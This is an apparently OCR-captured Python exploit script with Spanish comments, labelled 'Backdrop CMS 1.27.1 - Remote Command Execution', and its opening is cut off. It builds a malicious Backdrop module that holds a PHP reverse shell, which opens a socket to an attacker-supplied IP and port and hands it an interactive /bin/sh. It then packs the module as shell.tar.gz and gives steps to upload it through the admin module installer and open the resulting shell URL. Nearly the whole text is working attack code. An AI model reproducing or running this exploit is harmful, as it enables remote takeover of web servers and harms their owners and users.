 ```python
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        die("Failed to connect: $errstr ($errno)");
    }

    // Redirige la shell al socket
    $descriptorspec = array(
        0 => $sock,  // stdin
        1 => $sock,  // stdout
        2 => $sock   // stderr
    );

    $process = proc_open('/bin/sh -i', $descriptorspec, $pipes);
    if (!is_resource($process)) {
        die("Failed to spawn shell");
    }

    // Espera a que el proceso termine
    proc_close($process);
    ?>
    """
    shell_php_path = "shell/shell.php"
    with open(shell_php_path, "w") as file:
        file.write(shell_content)
    return shell_info_path, shell_php_path

def create_tar_gz(info_path, php_path):
    # Nombre del archivo .tar.gz
    tar_filename = "shell.tar.gz"
    with tarfile.open(tar_filename, "w:gz") as tar:
        tar.add(info_path, arcname='shell/shell.info')
        tar.add(php_path, arcname='shell/shell.php')
    return tar_filename

def main(url):
    print("Backdrop CMS 1.27.1 - Remote Command Execution Exploit")
    time.sleep(3)

    print("Generando módulo malicioso...")
    time.sleep(2)

    info_path, php_path = create_files()
    tar_filename = create_tar_gz(info_path, php_path)

    print(f"Módulo malicioso generado: {tar_filename}")
    time.sleep(2)

    print(f"Ve a {url}/admin/modules/install y sube el archivo {tar_filename} para instalación manual.")
    time.sleep(2)

    print(f"Tu shell estará en: {url}/modules/shell/shell.php")

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 2:
        print("Uso: python script.py [url]")
    else:
        main(sys.argv[1])
```
